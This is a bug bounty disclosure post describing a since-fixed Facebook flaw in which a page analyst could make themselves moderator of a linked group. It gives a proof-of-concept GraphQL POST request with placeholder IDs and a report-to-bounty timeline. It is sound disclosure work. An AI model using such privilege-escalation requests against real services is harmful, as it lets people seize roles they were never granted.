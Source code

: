 ```yaml
---
layout: single
title:  "Facebook Bug Bounty: A page analyst could add themselves as the moderator on a group"
---
```


## Description
There is a call to add member as the moderator on a group. The call at the time didn’t seem to have any authorisation checks to page roles. A page analyst was possible to add oneself as a moderator on a linked group.

## Proof of Concept
```
HTTP POST

graph.facebook.com/graphql/

query_id=QUERYID

query_params={"0":{"user_id":"UserID","admin_type":"MODERATOR","actor_id":"PageID","client_mutation_id":"","source":"treehouse_group_mall","group_id":"GroupID"}}

```

## Timeline
- Dec 19, 2018 - Report Sent
- Dec 22, 2018 - Further investigation by Facebook
- Jan 9, 2019 - Fixed by Facebook
- Jan 11, 2019 - Bounty Awarded by Facebook

<iframe width="560" height="315" src="https://www.youtube.com/embed/1_BJu-nLFoM" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
